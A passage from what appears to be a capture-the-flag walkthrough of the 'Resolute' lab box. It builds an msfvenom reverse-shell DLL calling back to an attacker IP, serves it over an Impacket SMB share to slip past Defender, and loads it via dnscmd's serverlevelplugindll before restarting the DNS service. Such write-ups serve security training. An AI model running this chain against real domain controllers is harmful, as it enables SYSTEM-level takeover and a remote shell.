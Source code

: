 I'll start with a basic `msfvenom` reverse shell payload as a dll.
Defender is running on this host, and if I put the output file there, it
does get eaten, but over a UNC path to a share it might be ok.



    root@kali# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o rev.dll
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 460 bytes
    Final size of dll file: 5120 bytes
    Saved as: rev.dll



Now, from that same directory, I'll run an SMB server:



    root@kali# smbserver.py s .
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



#### Execute Attack

I'll need to run three commands:

1.  Set the server level plugin to be `rev.dll` on my share.
2.  Stop the DNS server.
3.  Start the DNS server.

I'll need to do this all within a minute (or less) because, as
`note.txt` told me, things revert quickly.

With `nc` listening, I execute the attack:



    *Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.11\s\rev.dll

    Registry property serverlevelplugindll successfully reset.
    Command completed successfully.

    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns

    SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0x7530
    *Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns
